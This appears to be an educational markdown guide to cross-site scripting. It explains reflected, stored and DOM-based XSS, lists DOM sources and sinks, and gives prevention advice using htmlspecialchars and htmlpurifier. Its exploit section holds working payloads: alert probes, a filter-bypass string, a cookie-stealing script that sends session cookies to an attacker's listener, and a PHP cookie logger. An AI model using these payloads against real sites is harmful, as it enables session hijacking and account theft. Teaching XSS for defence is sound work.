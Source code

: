 # Website Vulnerabilities - XSS
> July 1st, 2023
----------------------------------------------------------------

## Author's Note

All of this is strictly for educational purposes only. I do not condone illegal activity. Please use this guide solely to educate yourself on how to protect your website. 

## Introduction

By default any Javascript code will run in your browser. Some websites don't do a good job at sanitizing their user input which can lead to devastating impacts. 

When someone is able to post onto a website, use Inspect Element to see if the website processes special characters such as: `< > ;`. If it doesn't encode them or use any other forms of sanitization, there could be a chance of XSS being possible

## Reflected XSS

Payload is reflected off the web server. Carried out through a single request/response cycle

## Stored XSS

Payload is permanently stored on target server such as a DB. The victim retrieves the maliciosu script from the server when it requests the stored infromation. Also known as Persistent XSS. Typically, you would see stored XSS on a blog, comment, or reply. As long as the website saves the user input on the database and echos it back to the website, there should be stored XSS. 

To search for Stored based XSS, look for features on the website where information is stored, and hopefully, shown back to the user. 

## DOM-based XSS

XSS attack where payload is executed as a result of modifying the DOM environment in the victim's browser used by the original client side script, so that the client side code runs in an unexpected manner. The page itself (HTTP response) doesn't change, client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.

In DOM-based XSS the malicious code is never sent to the server. The injection-point is somewhere where javascript has access. 

The typical example of how this works is with URLs.

The user is able to control the URL with the help of the hash-symbol `#`. If we add that symbol to a URL the browser will not include that characters that comes after it in the requet to the server.

`https://example.com/#this_is_not_sent_to_server`

However, the complete URL is included in DOM-objects.

```txt
document.URL
# will generate this output: https://example.com/#this_is_not_sent_to_server
```

**Source**

So in order to inject and execute a DOM-based XSS we need a injection-point (called source) and a point of execution (called sink).

In the example above `document.URL` is our source. Example of other sources are:

```txt
document.URL
document.documentURI
document.URLUnencoded (IE 5.5 or later Only)
document.baseURI
location
location.href
location.search
location.hash
location.pathname
window.name
document.referrer
```

**Sinks**

```txt
eval    
setTimeout      
setInterval     
setImmediate    
execScript      
crypto.generateCRMFRequest      
ScriptElement.src       
ScriptElement.text      
ScriptElement.textContent       
ScriptElement.innerText         
anyTag.onEventName

document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

DOM based cross site scripting occurs when JavaScript code accepts a user’s input (source) and passes that input to another function that displays the results back to the page (sink) in an unsafe manner. 

Source: A source function is any JS property or function that accepts user input from somewhere on the page. An example of a source is the location.search property because it reads input from the query string.

Sink: A sink is a potentially dangerous JavaScript function that can caused undesirable effects if attacker controlled data is passed to it. Basically, if the function returns input back to the screen as output without security checks, it’s considered a sink. An example of this would be the “innerHTML” property used earlier as that changes the contents of the HTML page to whatever is given to it.

> https://chryzsh.gitbooks.io/pentestbook/content/dom-based-xss.html
> https://yewtu.be/watch?v=-9QN_kGPkEc
> https://portswigger.net/web-security/cross-site-scripting/dom-based
> https://github.com/Sivnerof/Sources-And-Sinks-Cheatsheet
> https://medium.com/@fath3ad.22/understanding-dom-based-xss-sources-and-sinks-c17ae4bc7455

## Exploit code or POC

**Check for XSS**
```javascript
// Better versions as explained here: https://vid.puffyan.us/watch?v=KHwVjzWei1c
<script>alert(document.domain)</script>
<script>alert(domain.origin)</script>
<script>alert(window.origin)</script>
```
If you get an alert box that displays information about the above, you may have just found XSS!

**Poor sanitization technique**

If you are given access to source code, analyze any input the user is able to make. Some websites will have poor sanitzation techinques such as removing only `<script>` tags. This can be defeated very easily in multiple ways:
```javascript
<scr<script>ipt>alert(1)<scr<script>ipt>
```

The website looks for any input that says `<script>`, and when it does, it turns it into nothing. Then it processes whatever the user has left.
```javascript
// Before
<scr<script>ipt>alert(1)<scr<script>ipt>
	
// After sanitzation
<script>alert(1)<script>
	
// Pop-up window shows = Pwned!
```

**Data grabber for XSS**

Below sends a session cookie to the attacker's machine which will usually have a listener like Netcat or Python HTTP server

```javascript
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
```

The cookie.php file:
```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

Once we have someone's session cookie, we can use Firefox's developer tool to add in this cookie so we can perform an attack known as **session hijacking**.

Use the XSS README.md file for more information and obfuscation techniques

## How to prevent XSS attacks?

One way to prevent XSS from happening is to encode special characters. We do this by using htmlspecialchars() in PHP. When do we do this? Whenever we want to echo user supplied data back onto the website. Example:

```php
// Some random html junk that gets a user's username
echo(htmlspecialchars($_POST['username']));
```

In the case where you CANNOT use htmlspecialchars, at the very least, use an HTML parser/sanitizer library that tries to sanitize input. For example, when installing Quill text editor, you cannot use htmlspecialchars because it would break the formatting of the post. Therefore, I settled with the 2nd best option, which was to use a library to handle sanitization. 

The best one I can find for PHP is: https://github.com/ezyang/htmlpurifier

**Update to Quill Editor**
I just realized that Quill editor sanitizes bad input by default, but despite this, THIS IS STILL CLIENT SIDE CODE, AND THEREFORE MANIPULATABLE BY CLIENTS! Therefore, you NEED client-side sanitization AND server-side sanitization. So it's good to have htmlpurifier.

**Extra Resources**

https://xss-payloads.paracyberbellum.io/payloads.html

https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting.html

https://owasp.org/www-community/attacks/xss/

https://github.com/ezyang/htmlpurifier
